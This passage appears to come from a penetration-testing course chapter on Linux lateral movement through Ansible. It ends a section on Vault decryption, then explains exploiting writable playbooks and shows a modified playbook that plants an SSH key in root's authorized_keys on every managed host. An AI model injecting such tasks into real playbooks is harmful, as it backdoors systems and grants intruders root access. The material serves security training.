 > Listing 42 - Decrypted the original encrypted password

Decrypting encrypted files (as opposed to strings) is essentially the same process, since files are encrypted using the same encryption scheme.

1

(Red Hat, Inc., 2020), [https://docs.ansible.com/ansible/latest/user\_guide/vault.html](https://docs.ansible.com/ansible/latest/user_guide/vault.html) [↩︎](https://portal.offsec.com/courses/pen-300-9502/learning/linux-lateral-movement-14688/linux-lateral-movement-14967#fnref-local_id_562-1)

#### 17.2.6. Weak Permissions on Ansible Playbooks

Another option we have at our disposal for exploiting Ansible environments is to take advantage of playbooks that we have write access to.

If the playbook files used on the controller have world-writable permissions or if we can find a way to write to them (perhaps through an exploit), we can inject tasks that will then be run the next time the playbook is run.

In the controller VM, the playbook /opt/playbooks/getinfowritable.yaml has lax permissions, allowing anyone within the "ansible" group to write to it.

In this particular scenario, we assume we have compromised the _bystander_ account, which is in the "ansible" group. Because of this, the user has write access to the playbooks folder through group permissions. If we log in to the controller as _bystander_, we can edit the getinfowritable.yaml playbook.

Let's modify the file by adding few tasks to it.

```
---
- name: Get system info
  hosts: all
  gather_facts: true
  become: yes
  tasks:
    - name: Display info
      debug:
          msg: "The hostname is {{ ansible_hostname }} and the OS is {{ ansible_distribution }}"

    - name: Create a directory if it does not exist
      file:
        path: /root/.ssh
        state: directory
        mode: '0700'
        owner: root
        group: root

    - name: Create authorized keys if it does not exist
      file:
        path: /root/.ssh/authorized_keys
        state: touch
        mode: '0600'
        owner: root
        group: root

    - name: Update keys
      lineinfile:
        path: /root/.ssh/authorized_keys
        line: "ssh-rsa AAAAB3NzaC1...Z86SOm..."
        insertbefore: EOF
```

